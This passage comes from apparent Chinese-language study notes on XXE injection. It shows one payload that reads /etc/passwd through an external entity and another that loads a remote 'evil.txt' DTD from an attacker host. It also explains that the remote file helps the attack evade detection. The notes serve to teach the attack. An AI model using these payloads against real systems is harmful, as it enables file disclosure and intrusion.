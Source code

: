     - ![image-20220813171137082](xxe.assets/image-20220813171137082.png)

**引用外部实体的多种方式：**

- 使用普通外部实体

    - ```xml-dtd
        <?xml version="1.0"?>
        <!DOCTYPE ANY [
        <!ENTITY b SYSTEM "file:///etc/passwd/">
        ]>
        <c>&b;</c>
        ```

- 使用参数实体。

    - **为什么要使用参数实体？**

        - **因为这样危险函数就写在远程文件中，我们提交的xml就没有危险代码了，就不会被检测到了。**

    - ```xml-dtd
        <?xml version="1.0"?>
        <!DOCTYPE ANY [
            <!ENTITY % a SYSTEM "http://172.17.21.165:8000/evil.txt">
            %a;
        ]>
        <c>&b;</c>
        